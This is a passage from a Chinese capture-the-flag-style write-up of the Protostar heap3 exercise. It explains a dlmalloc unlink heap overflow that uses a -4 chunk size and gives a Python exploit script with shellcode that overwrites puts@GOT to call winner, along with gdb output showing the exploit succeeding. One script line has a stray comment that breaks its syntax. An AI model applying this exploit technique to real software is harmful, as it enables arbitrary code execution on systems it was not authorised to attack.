因此，unlink 基本上是将 P->bk 的值写入地址 (P->fd)+12 处的内存，并将 P->fd 的值写入地址 (P->bk)+8 处的内存。更改后的内存以图中蓝色标出。如果我们能控制 P->fd 和 P->bk 的值，我们就能覆盖任意内存，限制条件是 (P->fd)+12 和 (P->bk)+8 都必须是可写的。

而这个源代码使用了strcpy函数，strcpy函数不会检查目标缓冲区的大小，很容易导致缓冲区溢出

这里还需要用到全局偏移表

# pwn

## 负数size的块

我们可以用 -4 (0xfffffffc) 作为块大小



```

当使用 fastbin 时，malloc 会将块大小转换为无符号 int，因此 -4 比 64 大。
0xfffffffc 的最小有效位未设置，这表明前一个相邻的数据块是空闲的，程序会调用unlink
前一个相邻块的地址将通过从当前块的开头减去-4（即加4）来计算。
下一个相邻块的地址将通过从当前块的开头加上-4（即减去4）来计算。它的大小也将为-4。
当前分块开始前的值将用于确定下一个相邻分块是否空闲。在个值应该设置为奇数，以避免内存损坏（否则下一个相邻的分块也将作为空闲分块合并的一部分被调用unlink）。
```

需要注意的是，shellcode 要很短（8 字节或更短），因为 "shellcode 的地址 "+8 处的内存将被 unlink 覆盖。

winner函数地址：

```
(gdb) p winner
$1 = {void (void)} 0x8048864 <winner>
```

用汇编指令调用winner函数：

```
push 0x08048864
ret
```

使用这个网站将汇编指令调用winner函数的指令转化

```
https://shell-storm.org/online/Online-Assembler-and-Disassembler/
```



call winner：

```
\x68\x64\x88\x04\x08\xc3
```

我们用第三个块来存储我们精心设计的块。我们将把 shellcode 存储在第二个块，并用它来覆盖 prev\_size 和最后一个块的大小 0xfffffffc。

```
#!/usr/bin/python
import struct
# 输入的第一个参数
buf1 = ''
buf1 += 'AAAA' # 垃圾字符
# 输入的第二个参数
buf2 = ''
buf2 += '\xff'*16
buf2 += "\x68\x64\x88\x04\x08\xc3" # shellcode
buf2 += '\xff'*(32-len(buf2))
# 用 -4 覆盖 prev_size 和最后一个块的大小
buf2 += struct.pack('I', 0xfffffffc)*2
# 输入的第三个参数
buf3 = ''
buf3 += '\xff'*4 # 垃圾字符
buf3 += struct.pack('I', 0x804b128-12) # puts@GOT-12
buf3 += struct.pack('I', 0x804c040) # shellcode的地址
files = ["/tmp/A", "/tmp/B", "/tmp/C"]  #将要输入的参数文件放到/tmp下
buffers = [buf1, buf2, buf3]
for f_name, buf in zip(files, buffers):  写入
        with open(f_name, 'wb') as f:
                f.write(buf)
```



```
user@protostar:/tmp$ cd /opt/protostar/bin/
user@protostar:/opt/protostar/bin$ ./heap3 $(cat /tmp/A) $(cat /tmp/B) $(cat /tmp/C)
that wasn't too bad now, was it? @ 1705068581
```



成功破解程序，现在我们用gdb来看看堆里是什么样子的

```
(gdb) r $(cat /tmp/A) $(cat /tmp/B) $(cat /tmp/C)
The program being debugged has been started already.
Start it from the beginning? (y or n) y
```





已分配完内存，然后就是导入文件里的内容





执行free与unlink





```
(gdb) x/x 0x804b128
0x804b128 <_GLOBAL_OFFSET_TABLE_+64>: 0x0804c040
```

puts函数的got表地址成功被覆盖成了winner函数的地址


